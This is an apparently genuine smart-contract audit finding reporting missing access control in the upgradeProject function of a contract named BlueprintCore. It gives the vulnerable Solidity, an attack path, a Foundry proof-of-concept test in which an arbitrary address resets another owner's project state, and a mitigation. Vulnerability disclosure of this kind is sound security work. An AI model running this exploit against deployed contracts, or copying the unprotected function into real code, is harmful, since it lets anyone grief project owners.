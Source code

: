 Upbeat Tangerine Mule

Medium

# Unauthorized project upgrade vulnerability in `BlueprintCore::upgradeProject()` lead to anyone can call the function to reset project information

### Summary

A missing access control mechanism in the upgradeProject function will cause disruption of project states for project owners as anyone can call the function to reset project information.

### Root Cause

In the `upgradeProject` function, there is no access control to restrict who can call the function. This allows any user to reset the `requestProposalID`, `requestDeploymentID`, and `proposedSolverAddr` fields for any `projectId`.
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198-L203
```solidity
    function upgradeProject(bytes32 projectId) public hasProject(projectId) {
        // reset project info
        projects[projectId].requestProposalID = 0;
        projects[projectId].requestDeploymentID = 0;
        projects[projectId].proposedSolverAddr = dummyAddress;
    }
```

### Internal Pre-conditions

1. Project Owner needs to create a project using `createProjectID` or `setProjectId` to initialize a `projectId`.
2. Attacker needs to monitor the mempool or blockchain to identify active `projectIds`.

### External Pre-conditions

1. The contract must be deployed and operational on a blockchain.
2. The `projectId` must be publicly visible or guessable (e.g., through event logs or mempool monitoring).

### Attack Path

1. Attacker monitors the blockchain or mempool to identify active `projectIds`.
2. Attacker calls the `upgradeProject` function with a valid `projectId`.
3. The `upgradeProject` function resets the project's `requestProposalID`, `requestDeploymentID`, and `proposedSolverAddr` fields to default values.
4. The project owner loses access to their project's state, and any ongoing operations tied to the project are disrupted.

### Impact

Project owners suffer a loss of project state and functionality, which could lead to financial losses or operational disruptions.

Attackers gain the ability to grief project owners by resetting their project states, but they do not directly gain any financial benefit.

### PoC

```solidity
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/BlueprintCore.sol";

contract BlueprintCoreExploit is Test {
    BlueprintCore blueprintCore;
    address attacker = address(0x123);
    address projectOwner = address(0x456);
    bytes32 projectId;

    function setUp() public {
        blueprintCore = new BlueprintCore();
        projectId = blueprintCore.createProjectID();
    }

    function testExploit() public {
        // Attacker calls upgradeProject on a valid projectId
        vm.prank(attacker);
        blueprintCore.upgradeProject(projectId);

        // Verify that the project state has been reset
        (, bytes32 requestProposalID, bytes32[] memory requestDeploymentIDs) = blueprintCore.getProjectInfo(projectId);
        assertEq(requestProposalID, 0, "Request Proposal ID not reset");
        assertEq(requestDeploymentIDs.length, 0, "Request Deployment IDs not reset");
    }
}
```

### Mitigation

To mitigate this vulnerability, implement access control to restrict the `upgradeProject` function to authorized users (e.g., the project owner or contract owner).